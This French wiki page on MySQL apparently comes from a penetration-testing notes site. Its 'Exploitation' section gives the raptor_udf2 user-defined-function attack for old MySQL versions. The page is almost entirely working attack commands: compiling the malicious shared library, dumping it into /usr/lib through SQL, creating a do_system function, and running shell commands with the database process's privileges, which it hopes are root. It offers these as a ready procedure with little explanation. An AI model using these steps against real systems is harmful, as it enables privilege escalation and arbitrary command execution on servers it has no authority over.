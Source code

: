 ```yaml
---
title: MySQL
permalink: /MySQL/
---
```


Exploitation
------------

### User Defined functions

**Note**: cette partie est basée sur <https://www.exploit-db.com/exploits/1518/> et impacte les versions de MySQL &lt; 4.1.10a et MySQL &lt; 4.0.24

Dans un premier temps on compile la librairie dynamique utilisée:

``` bash
gcc -g -c raptor_udf2.c
gcc -g -shared -W1,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Ensuite on crée la fonction MySQL qui l'utilisera. Ceci permet d'executer des commandes avec les droits de l'utilisateur qui contrôle le processus mysql (avec un peu de chance c'est root):

``` bash
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select * from mysql.func;
select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
```

[Category:Technologies](/Category:Technologies "wikilink")